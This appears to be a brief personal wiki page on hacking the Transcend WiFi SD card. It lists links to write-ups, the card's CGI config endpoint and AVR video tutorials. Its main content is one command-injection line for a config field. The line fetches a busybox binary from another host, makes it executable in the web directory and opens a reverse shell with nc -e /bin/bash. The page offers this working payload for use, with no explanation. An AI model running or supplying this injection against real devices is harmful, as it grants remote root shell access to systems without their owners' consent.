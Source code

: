 ```yaml
---
title: Transcend WiFi SD
---
```


* http://haxit.blogspot.ch/2013/08/hacking-transcend-wifi-sd-cards.html
* http://192.168.11.254/cgi-bin/kcard_edit_config_insup.pl
* http://dmitry.gr/index.php?r=05.Projects&proj=15.%20Transcend%20WiFiSD

```bash
admin; wget http://192.168.11.11/busybox-armv5l; chmod a+x /www/cgi-bin/busybox-armv5l; /www/cgi-bin/busybox-armv5l nc 192.168.11.11 1337 -e /bin/bash #
```

# Transcend WiFi in combi met AVR
* https://www.youtube.com/watch?annotation_id=annotation_1323056153&feature=iv&src_vid=HT4W3CPlnAU&v=-Z9TrZQw16s
* https://www.youtube.com/watch?v=HT4W3CPlnAU
